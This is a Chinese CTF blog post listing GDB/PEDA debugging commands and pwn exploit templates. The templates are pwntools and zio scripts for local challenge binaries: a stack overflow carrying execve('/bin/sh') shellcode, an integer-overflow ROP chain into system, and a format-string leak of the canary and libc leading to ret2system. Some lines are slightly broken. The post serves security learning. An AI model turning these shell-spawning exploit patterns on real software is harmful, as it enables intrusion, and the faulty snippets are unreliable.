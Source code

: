 ```yaml
---
layout:     post
title:      pwn 题GDB调试技巧和exp模板
subtitle:    pwn 题GDB调试技巧和exp模板
date:       2018-10-05
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> pwn 题GDB调试技巧和exp模板

## 安装

可以通过pip直接安装,也可以从github上下载安装

```
$ pip install peda

$ git clone https://github.com/longld/peda.git ~/peda
$ echo "source ~/peda/peda.py" >> ~/.gdbinit 
```

## 命令

- `aslr` – 显示/设定GDB的ASLR(地址空间配置随机加载)设置 
  ![aslr](https://img-blog.csdn.net/20161113153134612)
- `checksec` – 检查二进制文件的各种安全选项 
  ![checksec](https://img-blog.csdn.net/20161113153310942)
- `dumpargs` – 函数将要被调用时，显示将要被传入函数的所有参数(默认会在反汇编代码下方自动显示)
- `dumprop` – 在给定内存范围中Dump出所有ROP gadgets 
  ![droprop](https://img-blog.csdn.net/20161113153420932)
- `elfheader` – Get headers information from debugged ELF file
- `elfsymbol` – 获取non-debugging symbol信息（plt表） 
  ![elfsymbol](https://img-blog.csdn.net/20161113153337135)
- `lookup` – Search for all addresses/references to addresses which belong to a memory range
- `patch` – Patch memory start at an address with string/hexstring/int
- `pattern` – 生成字符串模板 写入内存 用于定位溢出点
  - `pattern create size` 生成特定长度字符串 
  - `pattern offset value` 定位字符串 
    ![pattern](https://img-blog.csdn.net/20161113153814497)
- `procinfo` – Display various info from /proc/pid/
- `pshow` – Show various PEDA options and other settings
- `pset` – Set various PEDA options and other settings
- `readelf` – 获取elf头信息 
  ![readelf](https://img-blog.csdn.net/20161113153735043)
- `ropgadget` – Get common ROP gadgets of binary or library 
  ![ropgadget](https://img-blog.csdn.net/20161113153600730)
- `ropsearch` – Search for ROP gadgets in memory
- `searchmem|find` – 在内存中查找字符串，支持正则表达式 
  ![find](https://img-blog.csdn.net/20161113154256828)
- `shellcode` – 生成shellcode 
  ![shellcode](https://img-blog.csdn.net/20161113154323286)
- `skeleton` – Generate python exploit code template
- `vmmap` – 可以用来查看栈、bss段是否可以执行 
  ![vmmap](https://img-blog.csdn.net/20161113155152782)
- `xormem` – XOR a memory region with a key 

### 更多详细用法请参考官方帮助文档

![help](https://img-blog.csdn.net/20161113154705665)

 

\1. checksec 查看elf编译的保护选项。

\2. file [file] 加载objfile

\3. disas addr 对地址addr处的指令进行反汇编，addr可以是函数名

\4. b *addr 在addr处下一个断点 

\5. x addr 查看addr处存储的数据值 

\6. r 运行被调试的程序 

\7. c 继续运行 

\8. ni 单步执行不进入

\9.  si 单步执行并进入 

10.vmmap  得到虚拟映射地址

PWN题常用模板

# 单个发送（pwn库）

```
1 #coding=utf-8   #中文乱码
2 from zio import *
3 Thread = zio(('./pwn'))  #执行同目录下的pwn
4 Thread = write('a'*64+'\x00\x00\x00\x01')  #输入我们的payload
5 Thread = interact()
6 //p32(Address) 把32位地址 写成0x形式  同理64位的也是
```

 

# ZIO库

```
 1 from zio import *
 2 from pwn import *
 3 Thread = zio(('./pwn'))
 4 #shellcode1='\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
 5 shellcode='\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50'
 6 TargetAddress = 0x000000000040066E
 7 Length = len(shellcode)
 8 payload = shellcode+'\x90'*(72-Length)+p64(TargetAddress)
 9 Thread.write(payload)
10 Thread.interact()
11  
```

# pwn库 有消息接收和判断的

 

```
 1 from pwn import *
 2 Shellcode='a'*112+'\x5D\x86\x04\x08'
 3 Target=process('./pwn')
 4 Target.sendline(Shellcode)
 5 Target.recvuntil(':$')
 6 #context.terminal = ['gnome-terminal','-x','sh','-c']
 7 #gdb.attach(proc.pidof(Target)[0])
 8 Target.sendline('zhimakaimen')
 9 Target.interactive()
10  
11  
```

 

# 整数溢出型

```
 1 from pwn import *
 2 
 3 #r = remote('127.0.0.1', 9527)
 4 r = process('./pwn3')
 5 r.recvuntil('name \n')
 6 r.sendline('123')
 7 #raw_input('debug'
 8 ##构造结构可以是:scanf->ret->”%9s”->某地址->system->填充->某地址。
 9 
10 #下面开始构造
11 r.recvuntil('index\n')
12 #-2147483648  -->0x80000000 *4后溢出为0
13 context.terminal = ['gnome-terminal','-x','sh','-c'] 
14 gdb.attach(proc.pidof(p)[0])
15 r.sendline(str(-2147483648 + 14))  #ebp+4的地址处  就是Return函数的地址  现在是一处地址一处值  1
16 r.recvuntil('value\n')
17 r.sendline(str(int('8048470', 16)))  #jmp  scanf
18 r.recvuntil('index\n')
19 r.sendline(str(-2147483648 + 15))   #ebp+8
20 r.recvuntil('value\n')
21 r.sendline(str(int('0x080487de', 16)))  # pop     edi
22 r.recvuntil('index\n')
23 r.sendline(str(-2147483648 + 16))  
24 r.recvuntil('value\n') 
25 r.sendline(str(int('804884b',16)))  #0804884B a9s      db '%9s',0 
26 r.recvuntil('index\n')
27 r.sendline(str(-2147483648 + 17))  
28 r.recvuntil('value\n')
29 r.sendline(str(int('804a030', 16)))  #0804A030 __data_star  804a030 是GOT表的结尾
30 r.recvuntil('index\n')
31 r.sendline(str(-2147483648 + 18))
32 r.recvuntil('value\n')
33 r.sendline(str(int('8048420', 16))) #system  #jmp to system
34 r.recvuntil('index\n') 
35 r.sendline(str(-2147483648 + 19))
36 r.recvuntil('value\n')
37 r.sendline(str(int('804a030', 16)))  #0804A030 __data_start    db    0 
38 r.recvuntil('index\n')
39 r.sendline(str(-2147483648 + 20))
40 r.recvuntil('value\n')
41 r.sendline(str(int('804a030', 16)))  #0804A030 __data_start    db    0 
42 r.recvuntil('index\n')
43 r.sendline(str(-2147483648 + 21))
44 r.recvuntil('value\n')
45 r.sendline(str(int('8048420', 16)))  ##system  #jmp to system
46 r.recvuntil('index\n')
47 r.sendline(str(-2147483648 + 22))
48 r.recvuntil('value\n')
49 r.sendline(str(int('8048420', 16)))  ##system  #jmp to system
50 r.recvuntil('index\n')  #相当与让代码结束 执行ret从而执行到我们的流程
51 r.sendline('-1')
52 r.recvuntil('value\n')
53 r.sendline('10')
54 r.recvuntil('0 0 0 0 0 0 0 0 0 0 ')
55 r.sendline('/bin/sh')
56 r.interactive()
```

 

 

 

## 格式化字符串

```
 1 from pwn import *
 2 libc=ELF('/lib/i386-linux-gnu/i686/cmov/libc.so.6')
 3 p=process("./pwn2")
 4 context.terminal = ['gnome-terminal','-x','sh','-c'] 
 5 gdb.attach(proc.pidof(p)[0])       
 6 p.recvuntil('name:')
 7 p.sendline('%p.'*40)     #输出字符串 
 8 leak_data=p.recvuntil('messages:')
 9 address=leak_data.split('.')            #将输出的地址分组 然后进行分组
10 canary=int(address[30],16)     #这里为什么是 第30个
11 stack_addr=int(address[33],16)-0x90+0x8+0x8   #这里也不懂
12 put_addr=int(address[22],16)-0x144                  
13 system_addr=put_addr-(libc.symbols['puts']-libc.symbols['system'])
14 
15 payload ='a'*100+p32(canary)+'a'*12+p32(system_addr)+'bbbb'+p32(stack_addr)+'/bin/sh\x00'
16 
17 p.sendline(payload)
18 
19 p.interactive()
```